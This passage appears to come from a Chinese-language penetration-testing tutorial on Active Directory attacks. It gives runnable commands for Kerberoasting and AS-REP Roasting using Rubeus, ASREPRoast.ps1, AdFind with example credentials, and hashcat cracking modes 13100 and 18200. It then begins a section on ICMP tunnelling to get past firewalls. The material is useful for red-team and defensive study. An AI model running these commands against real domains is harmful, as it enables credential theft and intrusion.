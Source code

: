 ```bash
python2 tgsrepcrack.py password.txt xx.kirbi
## xx.kirbi 为票据信息

然后用 hashcat 进行爆破
hashcat -m 13100 hash.txt pass.txt
```

## AS-REP Roasting 攻击

在域中，对于域用户来说，如果设置不要求 `Kerberos预身份验证`，此时向域控制器 88 端口发送一个`AS_REQ`请求，此时域控会不作任何验证 便将 `TGT票据` 和 加密的 `Session-key`等信息返回。对收到的 `AS_REP`内容（enc-part 底下的 ciper，这部分使用用户 hash 加密的 session-key，然后通过离线爆破获取用户`Has)`进行重新组合，最终拼接成`Kerberos 5 AS-REP etype 23 (18200)`的格式，接下来可以使用`hashcat工具`对其破解，最终获得该用户的明文口令。  
命令如下  
工具链接：[https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)  
提取 `Hash`命令如下 xiongshen zhenshuang

```bash
Rubeus.exe asreproast /format:john /outfile:hash.txt

SREPROast.ps1(域内机器) 脚本利用
    下载：

    修改powershell策略可以加载脚本
    Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
    命令:
    Import-Module .\ASREPRoast.ps1
    Invoke-ASREPRoast | select -ExpandProperty Hash
```

```bash
非域内机器的我这里的利用思路是通过 adfind 或者 bloodhound 查询不需要 Kerberos
预身份验证的账户，之后在使用 Impacket 下的 GetNPUsers.py 脚本获取指定用户的 Hash
加密的 Login Session Key。
Adfind 查询：
Adfind.exe -h 10.211.55.100 -u test\lisi -up Pass123 -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" dn
```

`hashcat爆破`

```bash
hashcat64.exe -m 18200 hash.txt pass.txt --force
```

# 内网网络隧道多种方式

## ICMP 隧道

ICMP 隧道又称 `ICMP Internet控制报文协议`，用于在 IP 主机、路由器之间的传递控制消息 (网络是否连通)。ICMP 是通过 `Ping`命令访问远程计算机，建立 `ICMP隧道`，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而绕过防火墙实现不受限制的访问。  
下载：
